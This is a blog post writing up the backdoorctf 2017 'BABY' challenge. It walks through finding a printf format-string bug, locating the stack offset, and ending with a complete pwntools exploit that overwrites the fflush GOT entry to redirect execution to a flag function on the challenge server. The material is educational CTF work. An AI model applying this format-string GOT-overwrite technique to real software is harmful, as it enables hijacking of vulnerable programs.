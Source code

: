 ```yaml
---
layout: post
title: backdoorctf 2017 - BABY 0x41414141 Writeup
categories: ctf_backdoorctf17
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```


Executing the binary for the first time we have this behaviour:

<img src="{{ site-url }}/assets/backdoorctf17/baby-1.png">

Ok, cool, decompile it.

This is the main function:

<img src="{{ site-url }}/assets/backdoorctf17/baby-2.png">

Note: edata is in .bss and it is stdin

Immediatly we see the dumb `printf(&format)` call. Format string exploit? Yes.

After the vulnerable printf there is a fflush call, so i choose to overwrite its entry in the GOT.

In the functions list we can see the `flag(void)` function:

<img src="{{ site-url }}/assets/backdoorctf17/baby-3.png">

Now we must write an exploit to overwrite the fflush entry with the address of flag.

Because the flag address is a really big number i decided to split the format string in two write steps.

Above all we must locate the printf's parameter index corrispondent to the first 4 bytes of the buffer:

We try `AAAA %{INDEX}$p` with various indexes, and finally we get that with `AAAA %10$p` the program prints 0x41414141.

In the exploit we must write the last 2 bytes of the flag's address to the fflush got entry and the first two bytes to the got entry +2.

Remember that %n writes always 4 bytes.

Adjusting the number of printed chars to fit the flag address we have the exploit.

TADAAA

{% highlight python %}
from pwn import *

flag_func = 0x0804870B
fflush_got = 0x0804A028

off1 = 0x870B - 8 - len("Ok cool, soon we will know whether you pwned it or not. Till then Bye ")
off2 = (0x0804 - 0x870B) & 0xFFFF

format = p32(fflush_got) + p32(fflush_got +2) + "%" + str(off1) + "c%10$n%" + str(off2) + "c%11$n"

#p = process("./32_new")
p = remote("163.172.176.29", 9035)

print p.recvline(False)

p.sendline(format)

print p.readall()
{% endhighlight %}

